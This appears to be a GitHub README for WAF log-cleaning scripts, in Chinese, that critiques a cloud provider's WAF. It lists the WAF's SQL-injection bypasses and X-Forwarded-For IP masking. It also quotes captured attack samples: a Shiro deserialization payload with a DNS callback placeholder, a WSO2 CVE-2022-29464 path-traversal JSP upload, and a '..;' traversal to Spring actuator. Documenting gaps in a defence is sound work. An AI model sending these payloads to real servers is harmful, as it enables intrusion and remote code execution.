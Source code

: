 # waf-log-clean-data-script
存放在工作为了从大量日志中清洗出有用的数据的脚本
# 移动云waf
不好用
1.无法设置全局封禁ip

2.SQL注入使用内联注释可绕过,存在MD5编码绕过，CHR()函数构造绕过，以及最普通的SQL注入存在概率放行

3.数据包X-Forwarded-For:IP0,IP1,IP2... IP0为攻击者真实IP，移动云waf显示为IP2。

4.反序列化攻击流量paylaodbase64编码，能检测但不阻拦 

样本
```
bundle={{concat(url_encode(base64(aes_cbc(base64_decode(generate_java_gadget("dns", "http://{{reverse.url}}", "base64")), base64_decode("Dmmjg5tuz0Vkm4YfSicXG2aHDJVnpBROuvPVL9xAZMo="), base64_decode("QUVTL0NCQy9QS0NTNVBhZA==")))), '$2')}}
```

5.文件上传有概率，检测但不阻拦

样本:
```
POST /fileupload/toolsAny HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Kubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Connection: close Content-Length: 375
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
Accept-Encoding: gzip
X-Forwarded-For:  -----------------------------250033711231076532771336998311
Content-Disposition: form-data;

name="../../../../repository/deployment/server/webapps/authenticationendpoint/2yjbn94qnqeqdikvv30zcavar2a.jsp";filename="test.jsp" Content-Type: application/octet-stream <% out.print("WSO2-RCE-CVE-2022-29464"); %> -----------------------------250033711231076532771336998311--
```

6.使用`..;`可以进行被绕过
样本:

```
/aspnet_client/actuator/aspnet_client/actuator/env/..;/..;/..;//actuator/env
```
